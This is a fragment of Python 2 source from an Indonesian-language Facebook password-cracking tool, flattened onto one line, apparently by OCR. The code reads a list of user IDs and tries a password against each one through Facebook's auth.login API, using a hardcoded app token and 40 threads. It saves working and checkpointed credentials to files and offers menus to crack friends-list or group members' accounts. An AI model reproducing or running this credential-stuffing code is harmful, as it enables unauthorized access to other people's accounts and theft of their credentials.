 '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                                         print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4                                         raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                                         menu_hack()                                     else:                                         if 'www.facebook.com' in y['error_msg']:                                             print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                                             print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'                                             print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4                                             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                                             menu_hack()                                         else:                                             print '\x1b[1;91m[!] Maaf, gagal membuka password target :('                                             print '\x1b[1;91m[!] Cobalah dengan cara lain.'                                             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                                             menu_hack()         except KeyError:             print '\x1b[1;91m[!] Terget tidak ditemukan'             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')             menu_hack()   def crack():     global file     global idlist     global passw     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         os.system('clear')         print logo         print 40 * '\x1b[1;97m\xe2\x95\x90'         idlist = raw_input('\x1b[1;91m[+] \x1b[1;92mFile ID  \x1b[1;91m: \x1b[1;97m')         passw = raw_input('\x1b[1;91m[+] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;97m')         try:             file = open(idlist, 'r')             jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')             for x in range(40):                 zedd = threading.Thread(target=scrak, args=())                 zedd.start()                 threads.append(zedd)              for zedd in threads:                 zedd.join()          except IOError:             print '\x1b[1;91m[!] File tidak ditemukan'             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')             menu_hack()   def scrak():     global back     global berhasil     global cekpoint     global gagal     global up     try:         buka = open(idlist, 'r')         up = buka.read().split()         while file:             username = file.readline().strip()             url = 'https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + username + '&amp;locale=en_US&amp;password=' + passw + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6'             data = urllib.urlopen(url)             mpsh = json.load(data)             if back == len(up):                 break             if 'access_token' in mpsh:                 bisa = open('Berhasil.txt', 'w')                 bisa.write(username + ' | ' + passw + '\n')                 bisa.close()                 berhasil.append('\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + username + ' | ' + passw)                 back += 1             else:                 if 'www.facebook.com' in mpsh['error_msg']:                     cek = open('Cekpoint.txt', 'w')                     cek.write(username + ' | ' + passw + '\n')                     cek.close()                     cekpoint.append('\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + username + ' | ' + passw)                     back += 1                 else:                     gagal.append(username)                     back += 1             sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack    \x1b[1;91m:\x1b[1;97m ' + str(back) + ' \x1b[1;96m>\x1b[1;97m ' + str(len(up)) + ' =>\x1b[1;92mLive\x1b[1;91m:\x1b[1;96m' + str(len(berhasil)) + ' \x1b[1;97m=>\x1b[1;93mCheck\x1b[1;91m:\x1b[1;96m' + str(len(cekpoint)))             sys.stdout.flush()      except IOError:         print '\n\x1b[1;91m[!] Koneksi terganggu'         time.sleep(1)     except requests.exceptions.ConnectionError:         print '\x1b[1;91m[\xe2\x9c\x96] Tidak ada koneksi'   def hasil():     print     print 40 * '\x1b[1;97m\xe2\x95\x90'     for b in berhasil:         print b      for c in cekpoint:         print c      print     print '\x1b[31m[x] Gagal \x1b[1;97m--> ' + str(len(gagal))     keluar()   def super():     global toket     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('clear')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     print '\x1b[1;37;40m1. Crack dari daftar Teman'     print '\x1b[1;37;40m2. Crack dari member Grup'     print '\x1b[1;31;40m0. Kembali'     print     pilih_super()   def pilih_super():     peak = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')     if peak == '':         print '\x1b[1;91m[!] Jangan